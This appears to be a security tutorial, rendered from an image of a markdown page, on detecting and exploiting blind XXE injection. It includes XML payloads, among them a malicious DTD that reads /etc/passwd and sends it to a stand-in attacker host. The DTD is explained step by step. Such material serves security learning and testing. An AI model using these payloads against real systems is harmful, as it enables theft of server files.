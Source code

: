 ```js
<!DOCTYPE root [ <!ENTITY DK SYSTEM "http://internal.domain/" > ]>
```

# Finding and EXploiting Blind XXE Vulnerabilities

## What is Blind XXE
- `BLIND XXE` vulnerabilities arises where the application is vulnerable to `XXE injection` but does not return the values of any defined external entities with in its responses. 
- i.e direct retrieval of the server-side files is not possible, and `blind xxe is harder than regular xxe`
- `How to exploit Blind XXE` 
	- trigger out-of-band network interaction.
	- trigger XML parsing errors in such a way that the error messages contain sensitive data.

## Detecting Blind XXE using Out-of-band (OAST)
- we need to define an external entity for triggering network interaction to our server.
```js
<!DOCTYPE root [<!ENTITY DK SYSTEM "http://data.ourdomain.com" >]>
```
and use it to valid defined entity in the data value in the `XML`

- sometimes `XXE attacks` using regular Entities are Blocked, due to some input validation by the application or some hardening of the XML parser that is being used.
- in this situation you might be able to use `XML parameter Entities` , it is special kind of Entities which can only be referenced elsewhere within the `DTD` 
- for this we only need 2 things
	1. declaration of an XML parameter entity include the `%` symbol before the entity name `` <!ENTITY % myparameter_entity "parameter value"> ``
	2. parameter Entities are referenced using the `%` character instead of usual `&` character: ``%myparameter_entity``
``Final Payload for XXE Blind using Parameter Entity payload``
```js
<!DOCTYPE root [<!ENTITY % DK SYSTEM "http://attacker.domain"> %DK; ]> 
```

## Exploit Blind XXE to Exfiltrate data out-of-band (OAST)
- detecting vulnerability via out-of-band technique is well but exploitation to exfiltrate data via this is not easy.
- This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.
- **Example of malicious DTD** 
```js
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval " <!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com or we use burp collaborator/?x=%file;'> ">
%eval;
%exfiltrate
```
This `DTD` carries out the following steps
- defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd ` file.
- Defines an XML parameter entity called `eval` containing a dynamic declaration of another XML parameter entity called `exfiltrate`. 
- this exfiltrate entity will be evaluated by making HTTP request to the attacker's control web server containing the value of the `%file` entity to url query string.
- uses `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.
- the attacker must host this malicious `DTD` file in to his server `http://attacker.domain/malicious.dtd`